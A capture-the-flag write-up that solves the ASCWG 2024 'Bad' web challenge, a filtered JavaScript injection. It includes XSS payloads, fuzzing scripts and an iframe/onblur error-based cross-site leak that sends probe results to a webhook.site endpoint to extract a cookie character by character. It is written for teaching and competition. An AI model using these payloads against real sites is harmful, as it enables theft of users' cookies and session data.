

In this writeup, I will explain how I solved Bad, an interesting web challenge written by the amazing *Abdelhamid Ghazy* as part of the recent Arab Security Conference War Games (ASCWG) 2024.

ASCWG had four web challenges. I cleared the first three early in the competition before spending the next 16 hours on **Bad**, submitting only 30 minutes before the end of the CTF.

## 1. What are we up to?

| Title | Author           | Solves |
| ----- | ---------------- | ------ |
| Bad   | Abdelhamid Ghazy | 3      |

The challenge was initially black-box but the author decided to open it under pressure from a now-desperate audience.

Regardless, source code was totally irrelevant and added nothing new. The challenge is completely solvable without source code as confirmed by the author as well.

Despite being almost the least solved challenge in the entire CTF, the code was. very simple. Behold the following masterpiece:
```php
<?php
$x = $_GET['name'] ?? 'placeholder';
$x = preg_replace("/[^a-zA-Z0-9+'.`]/","",$x);
?>
<!doctype HTML>
<html>
<head>
<title>Bad challenge</title>
<body>

<script>
x = '<?=$x?>';
</script>

<p><b>Here the Bad challenge : D inject in ?name=test  get the cookie example from /get-cookies.php</b></p>

</html>
```

A simple script injection with a rather strict whitelist. We can put anything within `x = '<injection here>'`, with a twist, the following characters will get removed, no way around it :
```
/[^a-zA-Z0-9+'.`]/
```

We also have access to an admin bot as we are very clearly expected to perform some sort of cross-site scripting (XSS). There is an irrelevant path `/get-cookies.php` that gives us a flag cookie that we can use for testing.

Before opening up the source code I decided to enumerate our allowed characters, Burp Suite Intruder and a simple list was excellent for that, we quickly monitored the response for characters that get reflected and built a list of valid characters based on that.

Conclusion was:
- We can use numbers, lowercase and uppercase characters.
- We can only use the following special characters
```
` ' . +
```
- We can not use any of these lovely Javascript goodies:
```
= , / \ <space> ( ) [ ] $
```

A very strict filter indeed. Let's see what can we do with it.

## 2. Exploring our Options
With this knowledge, we can do a simple alert PoC by sending the following payload:
```
'+alert`xss`+'
```

Just an example of how you would send this payload (this will be assumed for following examples):
```sh
curl "localhost?name='%2balert\`xss\`%2b'"
...
<script>
x = ''+alert`xss`+'';
</script>
```

First, I tried to see if I can reach my domain:
```
x = ''+fetch`www.webhook.site`+'';
```

This obviously did not work for the following two reasons,

1. The URL here is relative, and will be treated as such AKA the browser will fetch from `https://bad.ascwg-challs.app/www.webhook.site`.

We know prepending `//` or `\\` would make the path absolute as per JS (or maybe HTML spec, not sure) URL normalization rules. If we did not know this fact, we can write a simple PoC to gain clarity on that matter. I wrote this one to make sure I have not missed anything:
```js
for  (let i = 0; i < 0xffff; i++) {
  c = String.fromCharCode(i);
  url = new URL(`${c}${c}pwn.hacked.xyz`, 'https://www.google.com')

  if (!url.href.startsWith('https://www.google.com')) {
    console.log(url.href, c)
  }

  if (i % 0x2000 == 0) {
    console.log(i, 'completed')
  }
}
```

Running it against the entire 65,535 character space yields only two such characters (Confirmed):
```
https://pwn.hacked.xyz/ /
https://pwn.hacked.xyz/ \
```

These two characters are filtered, so this is probably a dead end.

2. The other reason why our `fetch` payload is pointless even if we could write new lines, is that calling `fetch` using the template literal syntax prevents us from including variables (since we do not have `$ { }` characters).

We can not simply do anything like this:
```js
// relative url as mentioned in 1.
fetch`www.webhook.com`
// fetch the website called "document.cookie"
fetch`document.cookie`
// add the fetch Promise object to document.cookie, URL is relative anyways
fetch`www.webhook.com`+document.cookie
```

This is all going to fail.

For a good duration, I kept chasing the idea of a "newline vulnerability". The challenge still closed-source at the time so I had no way to know that it is a white-box other than fuzzing.

I follow this direction because I felt that being able to write multiple sentences, combined with the ability to store something in a variable, should probably give us more power, who knows?:
```
x = some expression
<statement 1>
<statement 2>
     |
<statement n>
```

Quick research yielded this page from the ECMAScript Spec:
- https://tc39.es/ecma262/multipage/ecmascript-language-lexical-grammar.html

The page is the de-facto reference on the lexical characteristics of Javascript:


It seems that, other than the common CR/LF characters, we have two higher codepoints that serve the same function in a Javascript file: `LINE SEPARATOR U+2028` and `PARAGRAPH SEPARATOR U+2029`.

To test it, we can copy paste the character from any Unicode viewer into our browser console or do `eval("a=1\u2028b=2")` and confirming that, indeed, both `a` and `b` assignments were evaluated. It just a newline!

A quick test:


Also within Node.js
```
node -e "eval('a=1<2029>b=2')"   

node -e "eval('a=1<2029>b=2')<2029>console.log(a, b)"
1 2
```

In retrospect, these are pretty much useless tests; however, they present a lucrative learning opportunity. These tiny, useless facts do *accumulate*; so keep following the rabbit holes, they are good for you!

I was not content with this information from the spec, so I hacked together another Node script to automatically scan other characters with similar behavior:
```js
for (let i = 0; i < 65535; i++) {
  sep = String.fromCharCode(i)
  try {
    eval(`a=1${sep} b=2`)
    console.log('Separator:', sep.charCodeAt(0), 'which is ', sep)
    console.log(a, b)

  } catch (e) {
    if (!e.message.includes('Invalid or unexpected token') && !e.message.includes('Unexpected identifier')) {
      //console.log(e.message)
    } 
  }
}
```

**Outputs:**
```sh
node bad.js
Separator: 10 which is  

1 2
Separator: 13 which is  
1 2
Separator: 44 which is  ,
1 2
Separator: 59 which is  ;
1 2
Separator: 8232 which is  
1 2
Separator: 8233 which is  
1 2
```

These are exactly the same codepoints as before but in decimal, note that we also got *comma* and *semicolon* because they do indeed allow us to write multiple statements!

We would have missed the fact about commas and semicolons if we just looked at the spec's line terminators section. The spec is, by design, formal. 

Specs are meant to describe the characteristics of the language and organize them so implementors can have an easier time following along. We are chasing our own niche goals, and it makes sense to write our own little, niche experiments to test these goals in the most accurate representation. I hope that makes sense.

At this point, I recognize that we need to be able to call functions without `()`, no way around it since *backticks* won't suffice.

I kept looking at [PortSwigger's excellent XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) for idea, particularly this one:
```js
{onerror=alert}throw/**/1

throw/**/onerror=alert,1
```

You can set the global `onerror` to be a function of your choice, then throw a value. This value will be passed to `onerror` resulting into a function call with the argument of your choice.

For example, we notice that we have a forward slash `/` in the body of challenge:
```
Here the Bad challenge : D inject in ?name=test get the cookie example from /get-cookies.php
```

Maybe, we can grab the forward slash as so:


Then use it to compose a URL which we can call using our little `throw` trick:
```js
x = ''+document.body.innerText.substr(-16,1)+document.body.innerText.substr(-16,1)+'webhook.site'+document.body.innerText.substr(-16,1)+document.cookie
throw/**/onerror=fetch,x
```

The idea was very exciting, but impossible:
- We do not have newline
- We do not have space separator (confirmed using another fuzzer script, won't bore you)
- We do not have equal, which is necessary to overwrite `onerror`, I explored options using `Object.assign` to overwrite a property of `window`, but nope, over ambitious.

I would say, leave nothing to doubt. Make it a habit to build experiments to test your hypotheses. Simple automation scripts like these can often tell you valuable information that are either missed by most documentations or even the spec itself. This is because you are testing directly against the actual implementation (be it a browser, a compiler, etc..)

Let's continue.

I realized we have no chance of doing a function call with a variable, only strings allowed. It has to be another way.

During that time, the challenge author released a one-word announcement `xs-leaks`.

This sent me to a rabbit hole exploring Cross-site Leaks (XS Leaks). XS Leaks are a form of a side-channel that use certain oddities and disparities in browser behavior to leak information about other sites (cross-site).

So I read:
- https://xsleaks.dev/
- https://cheatsheetseries.owasp.org/cheatsheets/XS_Leaks_Cheat_Sheet.html
- https://book.hacktricks.xyz/pentesting-web/xs-search

After some good reading time, one idea caught my eye:
- Using `window.onblur` and `.onfocus` events to leak information

Mmm... 🤔

What if we use the following payload:
```js
x = ''+expression+window.focus``+'
```

We can not have conditions inside our expression; however, if our expression throws an error, the parser will short circuit and not call `window.focus`!

If the expression is valid, the parser will continue evaluation and call `window.focus`!

We can perhaps embed this payload within an `iframe`, put a `onblur` listener on the parent that makes a `fetch` to our server and if the condition is valid, the `iframe` is going to take focus over the parent, resulting in an `onblur` event which in turn should result in `fetch`!

I quicky wrote the following PoC:
```html
<body>
<iframe src="https://bad.ascwg-challs.app/?name='%2bdocument.cookie%2bwindow.focus``%2b'"></iframe>

<script>
window.onblur = e => {
  console.log('Focus on iframe')
  fetch('https://webhook.site/')
}
</script>
</body>
```

This payload will always call `window.focus` and always get us a `fetch`! How do we make it break?

I tried multiple options before I realized: it is hard to make JS throw an error, at least when you want it to. This behemoth literally accepts anything and everything!

I slowly scanned the docs for String and Array:
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array

Eventually, I came across `Array.prototype.with()`, probably the only function that I could get to throw an error when out-of-range. Other methods tested:
```js
// all fail gracefully, returning either NaN, "" or undefined.
at, slice, splice, substr, substring, toSpliced
```

With that knowledge, we can write the following PoC:
```html
<body>
<iframe src="https://bad.ascwg-challs.app/?name='%2bdocument.cookie.split``.with`50`%2bwindow.focus``%2b'"></iframe>
<script>
window.onblur = e => {
  console.log('Focus on iframe')
  fetch('https://webhook.site/e550ec1f-2266-46ca-b16a-b46a19835a2b/blurred')
}
</script>
</body>
```

Sending this payload to the bot, does NOT call `fetch`!

Doing a simple binary search with the `with` part of the payload, we reach a conclusion about our cookie:
- `.with(26)` always fail, we know that because we are not getting any hits on our listener
- `.with(25)` always pass, we know that because we are getting a hit on our listener!

The highest valid index is 25, meaning our flag is 26 characters long! We are successfully able to leak information about our once-so-secret flag!

We performed a *"Blind Error-based XS-Leak via blur event"*

## 3. Exploiting the Leak
I made some good progress at this point. I had 8 hours left.

Let's use our error-based leak to reveal the entire flag, somehow, clock is ticking.

I wrote a couple of payloads that rely on the same behavior of `.with()` to leak several information about the flag.

These are based on our knowledge of length of the flag.

**Error-based length leak:**
```js
document.cookie.split``.with`25`
```

**Error-based character single-occurrence leak:**
```js
// does 'f' exist in our cookie?
document.cookie.replace`f`.split``.with`33`
```

**Error-based character double-occurrence leak:**
```js
// does 'f' exist twice in our cookie?
document.cookie.replace`f`.split``.with`38`
```

**Error-based character-at-position leak:**
```js
document.cookie.at`0`.replace`f`.split``.with`8`
```

**Error-based character-at-position bypassing filtered characters:**
We can use the following to leak characters we are unable to write otherwise such as `_`, `{` and `}`.
```js
document.cookie.at`25`.charCodeAt`0`.toString`10`.replace`107`.split``.with`8`
```

**Error-based startsWith negative leak:**
```js
// slice can be modified to skip filtered chars
document.cookie.slice`0`.startsWith`flag`.toString``.split``.with`4`
document.cookie.slice`5`.startsWith`ASCWG`.toString``.split``.with`4`
document.cookie.slice`11`.startsWith`1`.toString``.split``.with`4`
```

The payloads above will throw an error and not trigger `fetch` if true except the last payload `startsWith` which will throw an error only if the condition is false.

The last payload is very interesting because it is the only one that provide a negative affirmation. It will throw an error and call our listener *only* if the flag starts with the provided prefix (This is because `true` is shorter than `false` 😉) which proved to be very valuable since incorrect guesses are more probably than correct ones.

We want a confirmation on every single guess telling us it is wrong. If getting a confirmation is the default, we can easily tell whether the issue is with the bot, network issues, timeout issues or any other potential oddities.

It is also special because it is incrementally self-correcting. For every payload we send, we include information from our previous findings confirming any issues we may have had with previous guesses.

## 4. A Leaky Conclusion
My method was excruciatingly slow, prone to human error and hard to automate (despite a two-hour failed automation attempt).

Through trial and error, I realized that such asynchronous blind-based attacks require you to provide some indication to tell you which request are you getting the response for, for example, putting a generic `/blurred` route is a very terrible idea:
```html
<iframe src="https://bad.ascwg-challs.app/?name='%2bdocument.cookie.split``.with`50`%2bwindow.focus``%2b'"></iframe>
...
<script>
window.onblur = e => {
  console.log('Focus on iframe')
  fetch('https://webhook.site/e550ec1f-2266-46ca-b16a-b46a19835a2b/blurred')
}
</script>
```

Instead, you should use a value that is connected to the value that may have triggered the `fetch`, like:
```html
<iframe src="https://bad.ascwg-challs.app/?name='%2bdocument.cookie.split``.with`50`%2bwindow.focus``%2b'"></iframe>
...
<script>
window.onblur = e => {
  console.log('Focus on iframe')
  fetch('https://webhook.site/e550ec1f-2266-46ca-b16a-b46a19835a2b/with50')
}
</script>
```

This way, any latency or extremely delayed response, either due to network or bot queueing, does not affect your results.

The two extremely wrong flags I got, which took me over eight hours, were due to sending payload `a`, response getting delayed, me thinking it is invalid, then moving on to payloads `b`, `c`, ... `e` before receiving the extremely delayed, generic response of payload `a`.

I would think it is in response to my most recent payload, while in fact, it is reminiscent of a payload I sent 2-3 minutes ago.

Overall, I sent over 800 requests and got two totally garbage flags, before I was able to leak the actual flag.

The last clutch attempt was successful due to two reasons:
- the more reliable `startsWith` negative confirmation
- My teammate **0xNEF**, who performed a double-pass with me, confirming every single results before we included it into our final flag

From here, I believe you can assemble the pieces yourself. Hope you learnt something new and see you in the next one 👋